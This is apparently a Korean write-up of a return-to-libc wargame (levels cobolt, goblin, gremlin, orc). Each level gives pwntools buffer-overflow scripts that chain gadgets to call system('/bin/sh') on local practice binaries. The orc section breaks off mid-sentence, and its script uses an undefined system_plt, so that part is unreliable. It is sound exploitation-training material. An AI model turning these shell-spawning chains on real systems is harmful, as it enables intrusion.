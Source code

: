 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin

  
You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 ASLR의 영향을 받지 않는 bss영역에 문자열을 작성해야 한다. read(0,bss,8) 함수를 이용하여 bss영역에 문자열을 작성할 수 있다. 이와 같은 방식으로 RTL을 반복할 수 있다. 이후 system함수의 주소와 "/bin/sh" 주소를 쓰면 함수를 실행할 수 있다.

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt) 
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc 

You can use only read  
read를 사용하여 "/bin/sh"를 bss 영역에 쓸 수 있지만, system함수가 주어지지 않았으므로 라이브러리에서 찾아야 한다. read함수를 사용할 수 있으므로 현재 프로세스에서 libc_base를 구한 뒤 offset을 더하여 system 함수를 사용할 수 있다.  
read_plt를 구하고, 

```python
from pwn import *

p = process("./orc")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490a0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)




# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()

```


## wolfman
